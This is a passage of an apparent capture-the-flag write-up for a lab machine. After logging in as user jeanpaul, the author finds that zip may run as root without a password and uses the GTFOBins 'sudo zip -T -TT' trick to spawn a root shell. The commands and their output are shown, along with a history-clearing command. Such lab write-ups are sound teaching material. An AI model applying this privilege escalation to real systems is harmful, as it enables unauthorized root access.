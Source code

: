 ```

```

- Yay! We logged in.

- Now, did some random cmds, in which a specific command `sudo -l` gave us these result:

```
jeanpaul@dev:/$ history
    1  echo "" > .bash_history
    2  sudo -l
    3  exit
    4  ls
    5  history
    6  sudo -l
    7  ls
    8  pwd
    9  cd ..
   10  pwd
   11  ls
   12  cls
   13  clear
   14  history
jeanpaul@dev:/$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```

- Hence we can use `sudo zip` without password.

## Time for privilage escalation:

- For this we got to [GTFOBins](https://gtfobins.github.io/) > [sudo](https://gtfobins.github.io/#+sudo) > then for [zip](https://gtfobins.github.io/gtfobins/zip/).
- We used privilage escalation with sudo module:

```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

## Wallah!

```
jeanpaul@dev:/$ TF=$(mktemp -u)
jeanpaul@dev:/$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /rooot
sh: 2: cd: can't cd to /rooot
# exit
test of /tmp/tmp.ZoEuiexcRC FAILED

zip error: Zip file invalid, could not spawn unzip, or wrong unzip (original files unmodified)
free(): double free detected in tcache 2

```
